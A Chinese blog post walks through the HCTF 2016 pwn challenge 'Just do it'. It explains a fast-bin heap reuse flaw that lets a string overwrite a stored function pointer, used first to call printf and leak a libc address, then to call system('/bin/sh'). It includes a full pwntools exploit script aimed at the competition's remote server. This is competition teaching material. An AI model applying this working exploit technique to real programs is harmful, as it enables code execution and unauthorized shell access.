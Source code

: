 ```yaml
---
layout:     post
title:      "2016-Hctf-Just do it"
subtitle:   "fast-bin内存机制的探究与利用"
date:       2016-12-01 16:55:25
author:     "Carter"
header-img: "img/post-bg-2015.jpg"
tags:
    - Linux
    - pwn
    - UAF
---
```




### 一. 知识点：
**1. 代码段开了随机化怎么调试：**

需要两个文件，其一是debug，通过peda获取每次程序加载代码段基址，内容如下：

```javascript
python
code_addr = peda.get_vmmap('binary')[0][0]
peda.execute('set $code='+hex(code_addr))
end
source aa
```

另一个是断点文件aa，通过source指令链接到debug文件中，内容如下：

```python
break * $code + 0xe93
break * $code + 0xd65
```

在exp中只需要加入一句话就可以挂载gdb，并在启动gdb后自动加载断点信息

```python
gdb.attach(pidof('pwn1')[-1],open('debug'))
```

### 二. 题目描述：
该题主要有两个功能：

 - 一是开辟内存输入字符串
 - 二是删除字符串并释放该内存块

明显就是考察申请释放堆块的相关姿势。首先来看**输入字符串函数**：

每个字符串都会分配一个长度为32的堆块A「实际分配长度为48，包括16字节堆块头」。接着判断输入字符串长度，如果长度小于15，则直接把字符串存储在该堆块A中；如果大于15，则另外开辟一块内存B存储字符串，堆块A中仅仅存储堆块B的地址。

**长度小于15的字符串堆块：**

布局如下：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/10.png)
对应内存如下：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/1.png)

**长度大于15的字符串堆块：**
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/2.png)
内存中还有一个堆块总管理地址，对每个字符串有两个变量来标志它：1.该字符串是否被删除的标志位; 2.为字符串分配的堆块地址
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/3.png)

再来看看**删除字符串函数**:首先判断字符串对应的堆管理结构的第二个位置是否为0[**漏洞所在：第二个位置是函数地址永远不可能为0,判断无效**]，然后调用堆块中存储的'处理删除字符串函数'。如果我们可以覆盖此函数地址为其他地址，再释放该堆块，那么就可以任意函数执行了
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/4.png)



### 三. 漏洞利用：
**1.**首先输入3个长度小于15的字符串，申请3块内存，此时堆管理结构如下：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/5.png)
**2.** 接着删除字符串1、2、3，因为堆块A、B、C都是小于128字节，所以分配和释放都用fast-bin方式进行。释放后的堆块在链表中将后进先出，此时该fast-bin链如下：
C --> B --> A 


**3**. 再输入一个长度大于15的字符串：首先会分配一块32字节的堆，此时将分配到空闲块C；接着分配一个字符串长度的堆块，此时应该保证字符串长度在15-32之间，就可以顺利的分配到空闲堆块B，然后字符串的内容由我们输入存放在堆块B中，就可以覆盖原本的'处理删除字符串函数'为我们想调用的函数printf


在这里有一个坑：printf函数的偏移为0x9d0，但是我们只能覆盖整数字节，也就是说得把原本'处理删除字符串函数'的后面4个字母数覆盖为'x9d0'，其中x是一个未知数，有16种可能，在这里只能fuzz撞概率咯~

覆盖前：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/6.png)
覆盖后：
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/7.png)
**4.** 接着释放第2块会调用存放于堆块B中的'处理删除字符串函数'，此时已经被我覆盖为printf函数的地址
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/8.png)
由调试可知，参数正好是输入字符串，所以就可以了任意函数执行并控制参数
![图片](https://raw.githubusercontent.com/carterMgj/blog_img/master/2016-12-01-Hctf-jiushigan/9.png)
**5.** 顺利的调用了printf('%170$p')，可以泄露存放在栈上的__libc_start_main+240的地址，从而可以计算出system函数的地址

**6.** 接着再执行一遍以上过程，从新触发任意函数执行的漏洞，执行system('/bin/sh')即可获取shell

**7.** 利用代码如下

```python
from pwn import *

context.log_level = 'debug'
global io

def create_list(io,length,strr):
	io.recvuntil('quit')
	io.sendline('create ')
	io.recvuntil('Pls give string size:')
	io.sendline(length)
	io.recvuntil('str:')
	io.sendline(strr)

def delete_list(io,number):
	io.recvuntil('quit')
	io.sendline('delete ')
	io.recvuntil('id:')
	io.sendline(number)
	io.recvuntil('Are you sure?:')
	io.sendline('yes')


def pwn():
	global io

	debug = 0
	if debug:
   	 	io = process('./pwn1')
	else:
		#io = remote('127.0.0.1',2333)
		io = remote('115.28.78.54',80)
		io.recvuntil('please input you token: ')
		io.sendline('b66888c818c08d932ea91b8d6a1f122c2y7ZAdbh')
#------------------------------------------------use fsb to leak __libc_start_main's address
	create_list(io,'10','aaaa')
	create_list(io,'10','bbbb')
	create_list(io,'10','cccc')
	delete_list(io,'0')
	delete_list(io,'1')
	delete_list(io,'2')
	content1 = "%175$p".ljust(24,'a')+'\xd0\xf9\x00'
	create_list(io,'29',content1)
	delete_list(io,'1')                     #-----printf('%113$p')

	data = io.recv(14)
	libc_start_main = int(data,16)-240
	print "libc_start_main_addr="+hex(libc_start_main)
#--------------------------------------------------caculate system_addr	
	libc_start_main_offset = 0x20740
	system_addr = 0x45380
	system_addr = libc_start_main  - libc_start_main_offset + system_addr
	print "system_addr=" + hex(system_addr)

	if debug:
		gdb.attach(pidof('pwn1')[-1],open('debug'))

	create_list(io,'10','zzzz\x00')

	create_list(io,'10','aaaa\x00')
	create_list(io,'10','bbbb\x00')
	create_list(io,'10','cccc\x00')
	delete_list(io,'2')
	delete_list(io,'3')
	delete_list(io,'4')
#----------can't have '\x00' in string.because len(string) must >15.And after '/bin/sh' must have a space.
	content2 = "/bin/sh #".ljust(24,'a')+ p64(system_addr)  
	create_list(io,'32',content2)
	delete_list(io,'3')                     #system('/bin/sh')
	
	io.sendline('uname -a')
	io.interactive()



if __name__ == '__main__':
	while True:
		try:
			pwn()
		except EOFError:
			print 'guess not success!!!'
			io.close()
			time.sleep(5)
```

[题目下载链接](https://github.com/carterMgj/blog_img/blob/master/2016-12-01-Hctf-jiushigan/pwn1)

### 唠叨几句：
这是第一次接触到还带猜的pwn，所以详细的记录了一下解题过程。猜的过程也比较有意思，由于主办方采取了一定的防DOS措施：当检测到访问过于频繁时就会禁止访问该题。加之学校ip出口都是一个，校内还有一些大佬也在fuzz这个题，所以导致fuzz过程异常艰难！

总的来说，这个题还是出得很棒的，给主办方杭州电子科技大的大佬们赞一个~